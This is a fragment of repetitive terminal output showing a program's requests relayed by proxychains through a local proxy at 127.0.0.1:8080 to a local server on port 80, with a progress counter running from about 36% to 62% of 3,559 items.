[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK==                                                                         > (1274 / 3559) 35.79%  ETA: 00:05:58
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK==                                                                         > (1279 / 3559) 35.93%  ETA: 00:05:57
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK===                                                                        > (1284 / 3559) 36.07%  ETA: 00:05:57
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK===                                                                        > (1289 / 3559) 36.21%  ETA: 00:05:56
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK==                                                                         > (1294 / 3559) 36.35%  ETA: 00:05:55
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK====                                                                       > (1299 / 3559) 36.49%  ETA: 00:05:54
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK===                                                                        > (1304 / 3559) 36.63%  ETA: 00:05:53
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK===                                                                        > (1309 / 3559) 36.77%  ETA: 00:05:52
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK===                                                                        > (1314 / 3559) 36.92%  ETA: 00:05:52
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK====                                                                       > (1319 / 3559) 37.06%  ETA: 00:05:51
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK=======                                                                    > (1324 / 3559) 37.20%  ETA: 00:05:50
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK====                                                                       > (1329 / 3559) 37.34%  ETA: 00:05:49
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK=====                                                                      > (1334 / 3559) 37.48%  ETA: 00:05:48
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK===                                                                        > (1339 / 3559) 37.62%  ETA: 00:05:47
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK======                                                                     > (1344 / 3559) 37.76%  ETA: 00:05:47
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK====                                                                       > (1349 / 3559) 37.90%  ETA: 00:05:46
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK=====                                                                      > (1354 / 3559) 38.04%  ETA: 00:05:45
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK=====                                                                      > (1359 / 3559) 38.18%  ETA: 00:05:46
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK=====                                                                      > (1364 / 3559) 38.32%  ETA: 00:05:45
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK====                                                                       > (1369 / 3559) 38.46%  ETA: 00:05:44
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK====                                                                       > (1374 / 3559) 38.60%  ETA: 00:05:44
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK=======                                                                    > (1379 / 3559) 38.74%  ETA: 00:05:43
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK======                                                                     > (1384 / 3559) 38.88%  ETA: 00:05:42
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK=======                                                                    > (1389 / 3559) 39.02%  ETA: 00:05:41
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK======                                                                     > (1394 / 3559) 39.16%  ETA: 00:05:40
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK======                                                                     > (1399 / 3559) 39.30%  ETA: 00:05:39
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK=====                                                                      > (1404 / 3559) 39.44%  ETA: 00:05:39
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK=======                                                                    > (1409 / 3559) 39.58%  ETA: 00:05:38
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK======                                                                     > (1414 / 3559) 39.73%  ETA: 00:05:37
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK======                                                                     > (1419 / 3559) 39.87%  ETA: 00:05:36
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK=========                                                                  > (1424 / 3559) 40.01%  ETA: 00:05:35
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK=========                                                                  > (1429 / 3559) 40.15%  ETA: 00:05:34
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK=======                                                                    > (1434 / 3559) 40.29%  ETA: 00:05:34
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK========                                                                   > (1439 / 3559) 40.43%  ETA: 00:05:33
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK=======                                                                    > (1444 / 3559) 40.57%  ETA: 00:05:32
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK=======                                                                    > (1449 / 3559) 40.71%  ETA: 00:05:31
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK=======                                                                    > (1454 / 3559) 40.85%  ETA: 00:05:30
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK=======                                                                    > (1459 / 3559) 40.99%  ETA: 00:05:29
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK========                                                                   > (1464 / 3559) 41.13%  ETA: 00:05:29
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK=========                                                                  > (1469 / 3559) 41.27%  ETA: 00:05:28
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK==========                                                                 > (1474 / 3559) 41.41%  ETA: 00:05:27
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK==========                                                                 > (1479 / 3559) 41.55%  ETA: 00:05:26
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK========                                                                   > (1484 / 3559) 41.69%  ETA: 00:05:25
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK=========                                                                  > (1489 / 3559) 41.83%  ETA: 00:05:25
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK========                                                                   > (1494 / 3559) 41.97%  ETA: 00:05:24
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK=========                                                                  > (1499 / 3559) 42.11%  ETA: 00:05:23
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK=========                                                                  > (1504 / 3559) 42.25%  ETA: 00:05:22
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK==========                                                                 > (1509 / 3559) 42.39%  ETA: 00:05:21
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK=========                                                                  > (1514 / 3559) 42.54%  ETA: 00:05:20
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK==========                                                                 > (1519 / 3559) 42.68%  ETA: 00:05:20
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK==========                                                                 > (1524 / 3559) 42.82%  ETA: 00:05:19
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK==========                                                                 > (1529 / 3559) 42.96%  ETA: 00:05:18
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK===========                                                                > (1534 / 3559) 43.10%  ETA: 00:05:17
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK===========                                                                > (1539 / 3559) 43.24%  ETA: 00:05:16
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK============                                                               > (1544 / 3559) 43.38%  ETA: 00:05:16
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK===========                                                                > (1549 / 3559) 43.52%  ETA: 00:05:15
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK===========                                                                > (1554 / 3559) 43.66%  ETA: 00:05:14
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK============                                                               > (1559 / 3559) 43.80%  ETA: 00:05:13
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK===========                                                                > (1564 / 3559) 43.94%  ETA: 00:05:12
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK============                                                               > (1569 / 3559) 44.08%  ETA: 00:05:11
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK============                                                               > (1574 / 3559) 44.22%  ETA: 00:05:11
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK=============                                                              > (1579 / 3559) 44.36%  ETA: 00:05:10
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK===========                                                                > (1584 / 3559) 44.50%  ETA: 00:05:09
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK============                                                               > (1589 / 3559) 44.64%  ETA: 00:05:08
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK============                                                               > (1594 / 3559) 44.78%  ETA: 00:05:07
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK============                                                               > (1599 / 3559) 44.92%  ETA: 00:05:07
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK==============                                                             > (1604 / 3559) 45.06%  ETA: 00:05:06
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK============                                                               > (1609 / 3559) 45.20%  ETA: 00:05:05
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK=============                                                              > (1614 / 3559) 45.34%  ETA: 00:05:04
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK=============                                                              > (1619 / 3559) 45.49%  ETA: 00:05:03
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK=============                                                              > (1624 / 3559) 45.63%  ETA: 00:05:03
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK=============                                                              > (1629 / 3559) 45.77%  ETA: 00:05:02
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK==============                                                             > (1634 / 3559) 45.91%  ETA: 00:05:01
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK==============                                                             > (1639 / 3559) 46.05%  ETA: 00:05:00
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK==============                                                             > (1644 / 3559) 46.19%  ETA: 00:04:59
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK===============                                                            > (1649 / 3559) 46.33%  ETA: 00:04:58
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK==============                                                             > (1654 / 3559) 46.47%  ETA: 00:04:58
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK===============                                                            > (1659 / 3559) 46.61%  ETA: 00:04:57
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK===============                                                            > (1664 / 3559) 46.75%  ETA: 00:04:56
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK===============                                                            > (1669 / 3559) 46.89%  ETA: 00:04:55
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK===============                                                            > (1674 / 3559) 47.03%  ETA: 00:04:54
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK================                                                           > (1679 / 3559) 47.17%  ETA: 00:04:54
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK===============                                                            > (1684 / 3559) 47.31%  ETA: 00:04:53
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK===============                                                            > (1689 / 3559) 47.45%  ETA: 00:04:52
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK===============                                                            > (1694 / 3559) 47.59%  ETA: 00:04:51
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK===============                                                            > (1699 / 3559) 47.73%  ETA: 00:04:50
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK================                                                           > (1704 / 3559) 47.87%  ETA: 00:04:50
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK=================                                                          > (1709 / 3559) 48.01%  ETA: 00:04:49
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK================                                                           > (1714 / 3559) 48.15%  ETA: 00:04:48
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK=================                                                          > (1719 / 3559) 48.30%  ETA: 00:04:47
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK================                                                           > (1724 / 3559) 48.44%  ETA: 00:04:46
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK=================                                                          > (1729 / 3559) 48.58%  ETA: 00:04:46
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK=================                                                          > (1734 / 3559) 48.72%  ETA: 00:04:45
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK===============                                                            > (1739 / 3559) 48.86%  ETA: 00:04:44
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK=================                                                          > (1744 / 3559) 49.00%  ETA: 00:04:44
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK=================                                                          > (1749 / 3559) 49.14%  ETA: 00:04:43
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK=================                                                          > (1754 / 3559) 49.28%  ETA: 00:04:42
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK=================                                                          > (1759 / 3559) 49.42%  ETA: 00:04:41
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK=================                                                          > (1764 / 3559) 49.56%  ETA: 00:04:40
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK=================                                                          > (1769 / 3559) 49.70%  ETA: 00:04:40
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK=================                                                          > (1774 / 3559) 49.84%  ETA: 00:04:39
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK================                                                           > (1779 / 3559) 49.98%  ETA: 00:04:38
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK===================                                                        > (1784 / 3559) 50.12%  ETA: 00:04:37
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK===================                                                        > (1789 / 3559) 50.26%  ETA: 00:04:36
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK==================                                                         > (1794 / 3559) 50.40%  ETA: 00:04:35
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK===================                                                        > (1799 / 3559) 50.54%  ETA: 00:04:35
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK===================                                                        > (1804 / 3559) 50.68%  ETA: 00:04:34
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK===================                                                        > (1809 / 3559) 50.82%  ETA: 00:04:33
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK===================                                                        > (1814 / 3559) 50.96%  ETA: 00:04:32
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK====================                                                       > (1819 / 3559) 51.10%  ETA: 00:04:31
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK====================                                                       > (1824 / 3559) 51.25%  ETA: 00:04:31
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK====================                                                       > (1829 / 3559) 51.39%  ETA: 00:04:30
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK===================                                                        > (1834 / 3559) 51.53%  ETA: 00:04:29
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK====================                                                       > (1839 / 3559) 51.67%  ETA: 00:04:28
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK=====================                                                      > (1844 / 3559) 51.81%  ETA: 00:04:27
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK===================                                                        > (1849 / 3559) 51.95%  ETA: 00:04:27
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK======================                                                     > (1854 / 3559) 52.09%  ETA: 00:04:26
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK=====================                                                      > (1859 / 3559) 52.23%  ETA: 00:04:25
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK=====================                                                      > (1864 / 3559) 52.37%  ETA: 00:04:25
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK=====================                                                      > (1869 / 3559) 52.51%  ETA: 00:04:24
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK=====================                                                      > (1874 / 3559) 52.65%  ETA: 00:04:23
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK=====================                                                      > (1879 / 3559) 52.79%  ETA: 00:04:22
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK=====================                                                      > (1884 / 3559) 52.93%  ETA: 00:04:21
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK=====================                                                      > (1889 / 3559) 53.07%  ETA: 00:04:21
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK======================                                                     > (1894 / 3559) 53.21%  ETA: 00:04:20
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK======================                                                     > (1899 / 3559) 53.35%  ETA: 00:04:19
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK======================                                                     > (1904 / 3559) 53.49%  ETA: 00:04:18
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK======================                                                     > (1909 / 3559) 53.63%  ETA: 00:04:17
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK=======================                                                    > (1914 / 3559) 53.77%  ETA: 00:04:17
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK=======================                                                    > (1919 / 3559) 53.91%  ETA: 00:04:16
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK========================                                                   > (1924 / 3559) 54.06%  ETA: 00:04:15
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK=======================                                                    > (1929 / 3559) 54.20%  ETA: 00:04:14
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK=======================                                                    > (1934 / 3559) 54.34%  ETA: 00:04:13
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK=======================                                                    > (1939 / 3559) 54.48%  ETA: 00:04:15
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK=======================                                                    > (1944 / 3559) 54.62%  ETA: 00:04:14
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK========================                                                   > (1949 / 3559) 54.76%  ETA: 00:04:14
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK========================                                                   > (1954 / 3559) 54.90%  ETA: 00:04:13
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK========================                                                   > (1959 / 3559) 55.04%  ETA: 00:04:12
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK=========================                                                  > (1964 / 3559) 55.18%  ETA: 00:04:11
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK========================                                                   > (1969 / 3559) 55.32%  ETA: 00:04:10
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK========================                                                   > (1974 / 3559) 55.46%  ETA: 00:04:10
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK========================                                                   > (1979 / 3559) 55.60%  ETA: 00:04:09
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK========================                                                   > (1984 / 3559) 55.74%  ETA: 00:04:08
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK=======================                                                    > (1989 / 3559) 55.88%  ETA: 00:04:08
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK=========================                                                  > (1994 / 3559) 56.02%  ETA: 00:04:07
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK==========================                                                 > (1999 / 3559) 56.16%  ETA: 00:04:06
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK==========================                                                 > (2004 / 3559) 56.30%  ETA: 00:04:05
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK==========================                                                 > (2009 / 3559) 56.44%  ETA: 00:04:04
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK=========================                                                  > (2014 / 3559) 56.58%  ETA: 00:04:04
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK==========================                                                 > (2019 / 3559) 56.72%  ETA: 00:04:03
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK=========================                                                  > (2024 / 3559) 56.86%  ETA: 00:04:02
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK==========================                                                 > (2029 / 3559) 57.01%  ETA: 00:04:01
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK============================                                               > (2034 / 3559) 57.15%  ETA: 00:04:00
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK==========================                                                 > (2039 / 3559) 57.29%  ETA: 00:04:00
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK===========================                                                > (2044 / 3559) 57.43%  ETA: 00:03:59
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK===========================                                                > (2049 / 3559) 57.57%  ETA: 00:03:58
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK===========================                                                > (2054 / 3559) 57.71%  ETA: 00:03:57
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK==========================                                                 > (2059 / 3559) 57.85%  ETA: 00:03:56
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK===========================                                                > (2064 / 3559) 57.99%  ETA: 00:03:56
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK===========================                                                > (2069 / 3559) 58.13%  ETA: 00:03:55
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK============================                                               > (2074 / 3559) 58.27%  ETA: 00:03:54
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK============================                                               > (2079 / 3559) 58.41%  ETA: 00:03:53
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK============================                                               > (2084 / 3559) 58.55%  ETA: 00:03:52
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK============================                                               > (2089 / 3559) 58.69%  ETA: 00:03:52
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK===========================                                                > (2094 / 3559) 58.83%  ETA: 00:03:51
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK============================                                               > (2099 / 3559) 58.97%  ETA: 00:03:50
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK=============================                                              > (2104 / 3559) 59.11%  ETA: 00:03:49
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK=============================                                              > (2109 / 3559) 59.25%  ETA: 00:03:48
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK==============================                                             > (2114 / 3559) 59.39%  ETA: 00:03:48
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK=============================                                              > (2119 / 3559) 59.53%  ETA: 00:03:47
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK=============================                                              > (2124 / 3559) 59.67%  ETA: 00:03:46
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK=============================                                              > (2129 / 3559) 59.82%  ETA: 00:03:45
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK=============================                                              > (2134 / 3559) 59.96%  ETA: 00:03:44
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK==============================                                             > (2139 / 3559) 60.10%  ETA: 00:03:43
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK==============================                                             > (2144 / 3559) 60.24%  ETA: 00:03:43
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK==============================                                             > (2149 / 3559) 60.38%  ETA: 00:03:42
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK=============================                                              > (2154 / 3559) 60.52%  ETA: 00:03:41
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK==============================                                             > (2159 / 3559) 60.66%  ETA: 00:03:40
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK==============================                                             > (2164 / 3559) 60.80%  ETA: 00:03:39
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK==============================                                             > (2169 / 3559) 60.94%  ETA: 00:03:39
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK===============================                                            > (2174 / 3559) 61.08%  ETA: 00:03:38
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK================================                                           > (2179 / 3559) 61.22%  ETA: 00:03:37
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK===============================                                            > (2184 / 3559) 61.36%  ETA: 00:03:36
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK===============================                                            > (2189 / 3559) 61.50%  ETA: 00:03:35
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK===============================                                            > (2194 / 3559) 61.64%  ETA: 00:03:35
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK===============================                                            > (2199 / 3559) 61.78%  ETA: 00:03:34
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK===============================                                            > (2204 / 3559) 61.92%  ETA: 00:03:33
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK================================                                           > (2209 / 3559) 62.06%  ETA: 00:03:32
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK================================                                           > (2214 / 3559) 62.20%  ETA: 00:03:31
